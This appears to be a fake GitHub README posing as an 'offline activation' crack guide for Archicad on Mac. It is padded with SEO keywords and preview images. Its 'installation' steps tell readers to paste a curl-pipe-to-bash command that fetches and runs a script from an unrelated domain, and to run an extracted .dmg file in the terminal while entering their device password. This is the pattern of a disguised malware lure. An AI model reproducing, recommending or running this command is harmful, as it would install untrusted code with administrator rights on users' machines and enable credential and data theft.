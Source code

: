 # Archicad — Offline Activation Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://archicad-download-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🔓 Full access to BIM tools and templates  
🏗 Construction modeling features enabled  
📐 Architectural rendering and visualization unlocked  
🔌 Add-on and extension support activated  
🛠 No login or online validation required

## 🖼 Preview

![Archicad Startup Interface](https://www.aecbytes.com/illustrations/sponsored/2024/Mac-Archicad-images/cover.png)  
*Official Archicad launch and workspace environment*

![3D Modeling View](https://www.aecbytes.com/illustrations/sponsored/2024/Mac-Archicad-images/fig2b.png)  
*Real-time architectural modeling in progress*

![Team Collaboration Enabled](https://alizvfdwaq.cloudimg.io/https://blog.enscape3d.com/hubfs/2023/Blog/Getting%20started%20in%20Enscape%20for%20Mac%20on%20Archicad.jpg?w=1500&h=936&optipress=2)  
*Offline team project environment with full BIM access*

### 🔎 SEO Keywords

`archicad mac`, `archicad macbook`, `archicad mac download`, `my graphisoft`, `archicad mac os`,  
`archicad osx`, `live sync archicad lumion`, `archicad for mac`, `graphisoft archicad mac`, `download archicad mac`,  
`archicad for macbook pro`, `archicad student mac`, `archicad trial mac`, `archicad full version mac`, `archicad offline mac`,  
`bim software mac`, `macbook architecture software`, `archicad install mac`, `archicad m1 mac`, `archicad m2 mac`,  
`graphisoft macos`, `archicad osx installer`, `3d architecture software mac`, `macos bim modeling`, `graphisoft download center`
